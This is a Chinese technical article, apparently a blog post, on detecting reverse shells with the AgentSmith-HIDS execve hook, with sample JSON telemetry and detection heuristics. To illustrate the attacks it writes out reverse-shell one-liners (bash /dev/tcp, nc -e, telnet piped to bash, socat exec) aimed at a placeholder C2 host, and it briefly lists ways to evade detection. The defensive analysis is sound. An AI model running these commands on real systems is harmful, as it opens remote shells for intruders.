


# 如何利用AgentSmith-HIDS检测反弹shell

反弹shell(reverse shell)是一种历史悠久，且上到APT下到脚本小子都会使用的最常规的一种入侵后行为，作为一款HIDS来讲是必然需要考虑检测的一种入侵行为。但是反弹shell的方式较多，且极为灵活，想要较低漏报/误报的通用检测方法目前还是比较少的。AgentSmth-HIDS作为一款专为入侵检测而生的产品，将会给大家带来一种不一样思路的检测方式。

#### 1.何为反弹shell

当黑客拿到一台服务器的权限时候，往往会因为服务器没有公网IP/防火墙限制等原因没有办法正向的方式进行连接，如SSH等，那么就需要让被入侵的服务器主动将shell送到控制端来进行接管，所以叫**反弹shell**。


#### 2.AgentSmith-HIDS的Execve Hook 信息详解

由于本文的主题是利用**AgentSmith-HIDS**来检测反弹shell的，且基本都是利用Execve Hook的信息来进行检测，因此有必要在文章开始的时候仔细讲解一下Execve Hook的信息。

我们先来看一个例子：

```json
{
    "uid":"0",
    "data_type":"59",
    "run_path":"/usr/bin/ls",
    "exe":"/usr/bin/ls",
    "argv":"ls --color=auto --indicator-style=classify ",
    "pid":"6766",
    "ppid":"2202",
    "pgid":"6766",
    "tgid":"6766",
    "comm":"ls",
    "nodename":"test",
    "stdin":"/dev/pts/2",
    "stdout":"/dev/pts/2",
    "sessionid":"5",
    "dip":"192.168.165.1",
    "dport":"50431",
    "sip":"192.168.165.152",
    "sport":"22",
    "sa_family":"1",
    "pid_tree":"1(systemd)->1565(sshd)->2129(sshd)->2132(bash)->2202(fish)->6766(ls)",
    "tty_name":"pts2",
    "socket_process_pid":"2129",
    "socket_process_exe":"/usr/sbin/sshd",
    "SSH_CONNECTION":"192.168.165.1 50431 192.168.165.152 22",
    "LD_PRELOAD":"",
    "user":"root",
    "time":"1580104906853",
    "local_ip":"192.168.165.152",
    "hostname":"test",
    "exe_md5":"a0c32dd6d3bc4d364380e2e65fe9ac64",
    "socket_process_exe_md5":"686cd72b4339da33bfb6fe8fb94a301f"
}
```

部分字段信息及获取来源(其他基础信息就不在赘述了)：

| Field                                 | Remark                                                       |
| ------------------------------------- | ------------------------------------------------------------ |
| nodename                              | Linux namespace中的nodename，对应到主机名或者是容器的container name等 |
| stdin/stdout                          | 进程的标准输入/输出信息                                      |
| sessionid                             | 进程的sessionid信息，可以利用该ID进行聚类溯源分析            |
| pid_tree                              | 进程树信息                                                   |
| dip/dport/sip/sport                   | **该进程所在进程树的第一个socket指向的4元组信息(从下向上寻找，仅限AF_INET或AF_INET6)** |
| socket_process_pid/socket_process_exe | 第一个有效的socket的进程的pid及exe信息                       |
| tty_name                              | 该进程tty信息                                                |
| SSH_CONNECTION                        | 从环境变量中提取，SSH连接信息                                |
| LD_PRELOAD                            | 从环境变量中提取，LD_PRELOAD信息                             |

其中**dip/dport/sip/sport**这些可能有些难以理解，我们用上面的例子来看，通过**exe**和**argv**可以判断是执行了**ls**命令，这时通过**dip/dport/sip/sport**和**socket_process_pid/socket_process_exe**可以发现是指向**sshd**和一个**ssh**的连接，由于**ls**本身并没有网络连接，那么AgentSmith-HIDS就会向上寻找，一直找到存在有效的进程或者到头为止，由于我们执行**ls**是通过**ssh**登陆到这台服务器上进行的操作，那么自然会找到该**ssh**的连接信息。这个和环境变量中的**SSH_CONNECTION**对比也可以发现。



需要注意的是，这个信息可能会被干扰，由于性能的考虑，我不能提取全部的socket信息，也没办法遍历每一个进程的全部fd，这些都会成为潜在的限制条件。


#### 3.最简单的反弹shell

最简单的反弹shell莫过于`bash -i`了，其使用方式如下：

```bash
bash -i >& /dev/tcp/c2_ip/c2_port 0>&1
```

其中`-i`这个参数表示的是产生交互式的shell，然后用TCP的接管shell的输入和输出，就可以实现反弹shell，控制端只需要在这之前使用：

```bash
nc -l port
```

就可以监听指定端口，等待shell乖乖登门造访了。


面对这种最基础的反弹shell，业界的检测思路都非常的统一，即如果存在bash进程的stdin/stdout(标准输入/标准输出)是指向某个socket连接，那么我们就认为该bash极有可能是反弹shell行为。

通常我们查看一个进程的stdin/out可以在`/proc/pid/fd`下面查看，默认0是stdin，1是stdout，2是stderr。


这种的检测在AgentSmith-HIDS上非常简单，我们利用execve hook获取的数据即可发现：

```json
{
    "uid":"0",
    "data_type":"59",
    "run_path":"/usr/bin/bash",
    "exe":"/usr/bin/bash",
    "argv":"bash -i ",
    "pid":"6364",
    "ppid":"2549",
    "pgid":"6364",
    "tgid":"6364",
    "comm":"bash",
    "nodename":"test",
    "stdin":"socket:[80649]",
    "stdout":"socket:[80649]",
    "sessionid":"3",
    "dip":"127.0.0.1",
    "dport":"233",
    "sip":"127.0.0.1",
    "sport":"60620",
    "sa_family":"2",
    "pid_tree":"1(systemd)->1565(sshd)->2093(sshd)->2096(bash)->2147(fish)->2549(bash)->6364(bash)",
    "tty_name":"pts0",
    "socket_process_pid":"6364",
    "socket_process_exe":"/usr/bin/bash",
    "SSH_CONNECTION":"192.168.165.1 50422 192.168.165.152 22",
    "LD_PRELOAD":"",
    "user":"root",
    "time":"1580104472249",
    "local_ip":"192.168.165.152",
    "hostname":"test",
    "exe_md5":"f926bedd777fa0f4f71dd2d28155862a",
    "socket_process_exe_md5":"f926bedd777fa0f4f71dd2d28155862a"
}
```

大家注意看exe和stdin和stdout，根据这个特征即可以发现该类型的反弹shell，并且还可以通过**dip/dport/sip/sport**来定位到C2的位置。

其他类似的如大家耳熟能详的python/perl这种就不多赘述演示了，大多数都是将bash的stdin/out指向socket连接，本质没有区别。


#### 4.最简单的反弹shell(2)

除了`bash -i`这种之外，还有另外一种很常用的方式是使用`nc -e`，使用方式如下：

```bash
nc -e /usr/bin/bash c2_ip c2_port
```

我们按照之前的思路来查看一下bash进程的stdin和stdout是什么样子，是不是也是有明显的输入输出指向网络连接的情况：


很不幸，和之前的状况并不一样，但是我们依然可以利用如：

* argv是`nc -e`
* bash的父进程是`nc`
* bash的进程或者其父进程存在异常的网络连接
* 跟踪stdin/out的pipe，尝试检测最终pipe连接的进程是否具有异常的网络连接

等其他方式来检测，但是如果你是使用AgentSmith-HIDS的话可以有其他的检测方式，我们后面再说。


#### 5.进阶版本(1)

` telnet c2_ip c2_port 0<SOME_DEVNAME | /bin/bash 1>SOME_DEVNAME`


我们看下bash进程的stdin/stdout：


#### 5.进阶版本(2)

`socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:c2_ip:c2_port`


我们看下bash进程的stdin/stdout：




#### 6.其他后门实现

这里就用MSF的后门来举例看一下好了：


额，如果按照传统思路，根本没有bash进程，传统思路是无法检测的。

这种类似的场景也非常的多，因为本质上**bash**就是一个**for{execve()}**。


#### 7.我们来聊聊如何绕过传统的检测方式

* 使用上文中提到的进阶方法都可以
* 使用成熟的后门，如msf/apache后门模块/nginx后门模块等
* 自己实现elf loader
* 反弹shell使用的工具或二进制文件进行文件名/进程名/md5的混淆，如nc/bash等等，也可以通过自己源码编译等方式避免检测
* 等等


#### 8.总结反弹shell的特点

看到这里我们可以看到反弹shell其实是一种非常难以被完全检测到的行为，因为他的本质其实是：**外部控制情况下执行execve或者执行些什么**，按照传统的检测思路主要放在**bash**的输入输出上，但是**确定bash**本身就是一件**不可能且毫无意义的事情**，因为如果通过进程名/文件名来那么太容易混淆了，其次想要执行些什么不是只能通过bash才可以。

但是我们还是有一丝希望来做到较为全面的检测，接下来我们尝试的总结和梳理一下：

* 反弹shell往往是外部来控制受害机器执行些什么

* 大部分的执行是通过execve syscall的(当然有一小部分可以不需要)

* execve本质是创建一个新进程，比如当我们在bash下执行ls的时候，bash是父进程，ls是子进程，是新被创建出来的进程

* 子进程会继承父进程的文件描述符(不绝对但是大多数情况下是这样的)

* 通过以上几点推断我们可以从**观察异常的bash**转变成**观察异常的进程**，因为父子进程存在文件描述符继承关系

  

#### 9.如何使用AgentSmith-HIDS检测反弹shell

根据上面的推断和之前的例子，检测方式有以下几种：

* 传统的检测方式，如：bash进程存在异常的stdin/stdout，或者异常的argv，或者bash的进程树存在异常的网络连接等等就不在赘述了
* 框定几个如果存在反弹shell则**入侵者大概率会使用的**且**正常情况下大概率是在ssh登陆下才会使用的**二进制文件，如ls/cat/ip等等，如果发现这些进程的**stdin/stdout**和**tty**不一致则告警
* 框定几个如果存在反弹shell则**入侵者大概率会使用的**且**正常情况下大概率是在ssh登陆下才会使用的**二进制文件，如ls/cat/ip等等，如果发现这些进程的**dip/dport/sip/sport**和**SSH_CONNECTION**不一致则告警


如果发现了异常，如果幸运的话，**dip/dport/sip/sport**会告诉你一些有价值的信息，当然也可能毫毫无价值，需要自己去手动排查(如：进阶版本1的情况)。


接下来是一些例子，都是通过执行ls为例，大家可以主要观察**stdin/out**和**tty_name**，**dip/dport/sip/sport**，**socket_process_pid/socket_process_exe**以及**SSH_CONNECTION**：


**“最简单的反弹shell(2)“的AgentSmith-HIDS Execve数据：**

```json
{
    "uid":"0",
    "data_type":"59",
    "run_path":"/usr/bin/ls",
    "exe":"/usr/bin/ls",
    "argv":"ls ",
    "pid":"25131",
    "ppid":"25118",
    "pgid":"25117",
    "tgid":"25131",
    "comm":"ls",
    "nodename":"test",
    "stdin":"pipe:[93621]",
    "stdout":"pipe:[93622]",
    "sessionid":"11",
    "dip":"127.0.0.1",
    "dport":"233",
    "sip":"127.0.0.1",
    "sport":"36246",
    "sa_family":"2",
    "pid_tree":"1(systemd)->1565(sshd)->16471(sshd)->16475(bash)->25086(fish)->25117(nc)->25118(bash)->25131(ls)",
    "tty_name":"pts0",
    "socket_process_pid":"25131",
    "socket_process_exe":"/usr/bin/ls",
    "SSH_CONNECTION":"192.168.165.1 64289 192.168.165.152 22",
    "LD_PRELOAD":"",
    "user":"root",
    "time":"1580122709834",
    "local_ip":"192.168.165.152",
    "hostname":"test",
    "exe_md5":"a0c32dd6d3bc4d364380e2e65fe9ac64",
    "socket_process_exe_md5":"a0c32dd6d3bc4d364380e2e65fe9ac64"
}
```


**“进阶版本(1)“的AgentSmith-HIDS Execve数据：**

```json
{
    "uid":"0",
    "data_type":"59",
    "run_path":"/usr/bin/ls",
    "exe":"/usr/bin/ls",
    "argv":"ls ",
    "pid":"25503",
    "ppid":"25495",
    "pgid":"25494",
    "tgid":"25503",
    "comm":"ls",
    "nodename":"test",
    "stdin":"pipe:[94503]",
    "stdout":"/dev/pts/0",
    "sessionid":"11",
    "dip":"192.168.165.1",
    "dport":"64289",
    "sip":"192.168.165.152",
    "sport":"22",
    "sa_family":"1",
    "pid_tree":"1(systemd)->1565(sshd)->16471(sshd)->16475(bash)->25086(fish)->25473(bash)->25495(bash)->25503(ls)",
    "tty_name":"pts0",
    "socket_process_pid":"16471",
    "socket_process_exe":"/usr/sbin/sshd",
    "SSH_CONNECTION":"192.168.165.1 64289 192.168.165.152 22",
    "LD_PRELOAD":"",
    "user":"root",
    "time":"1580123032502",
    "local_ip":"192.168.165.152",
    "hostname":"test",
    "exe_md5":"a0c32dd6d3bc4d364380e2e65fe9ac64",
    "socket_process_exe_md5":"686cd72b4339da33bfb6fe8fb94a301f"
}
```


**“进阶版本(2)“的AgentSmith-HIDS Execve数据：**

```json
{
    "uid":"0",
    "data_type":"59",
    "run_path":"/usr/bin/ls",
    "exe":"/usr/bin/ls",
    "argv":"ls --color=auto ",
    "pid":"24697",
    "ppid":"24676",
    "pgid":"24697",
    "tgid":"24697",
    "comm":"ls",
    "nodename":"test",
    "stdin":"/dev/pts/4",
    "stdout":"/dev/pts/4",
    "sessionid":"11",
    "dip":"127.0.0.1",
    "dport":"233",
    "sip":"127.0.0.1",
    "sport":"36150",
    "sa_family":"2",
    "pid_tree":"1(systemd)->1565(sshd)->16471(sshd)->16475(bash)->16490(fish)->24675(socat)->24676(bash)->24697(ls)",
    "tty_name":"pts4",
    "socket_process_pid":"24675",
    "socket_process_exe":"/usr/bin/socat",
    "SSH_CONNECTION":"192.168.165.1 64289 192.168.165.152 22",
    "LD_PRELOAD":"",
    "user":"root",
    "time":"1580122431825",
    "local_ip":"192.168.165.152",
    "hostname":"test",
    "exe_md5":"a0c32dd6d3bc4d364380e2e65fe9ac64",
    "socket_process_exe_md5":"f639a31fa3050bc78868d35b46390536"
}
```


**“msf后门“的AgentSmith-HID Execve数据：**

```json
{
    "uid":"0",
    "data_type":"59",
    "run_path":"/usr/bin/ls",
    "exe":"/usr/bin/ls",
    "argv":"ls ",
    "pid":"24587",
    "ppid":"18303",
    "pgid":"18289",
    "tgid":"24587",
    "comm":"ls",
    "nodename":"test",
    "stdin":"pipe:[88900]",
    "stdout":"pipe:[88901]",
    "sessionid":"11",
    "dip":"192.168.165.152",
    "dport":"233",
    "sip":"192.168.165.152",
    "sport":"46852",
    "sa_family":"2",
    "pid_tree":"1(systemd)->1565(sshd)->16471(sshd)->16475(bash)->16490(fish)->18289(backdoor)->18303(sh)->24587(ls)",
    "tty_name":"pts0",
    "socket_process_pid":"18289",
    "socket_process_exe":"/root/backdoor",
    "SSH_CONNECTION":"192.168.165.1 64289 192.168.165.152 22",
    "LD_PRELOAD":"",
    "user":"root",
    "time":"1580122376221",
    "local_ip":"192.168.165.152",
    "hostname":"test",
    "exe_md5":"a0c32dd6d3bc4d364380e2e65fe9ac64",
    "socket_process_exe_md5":"1bc2f057dab264291f7e3117ebc2d50e"
}
```


#### 10.总结

还能不能绕过呢？还是可以的，还有不少方法可以绕过。不过不必担心，今天只用到了AgentSmith-HIDS的一个Hook信息进行判断而已，还有其他的不少数据供我们从不同维度检测入侵行为，敬请期待。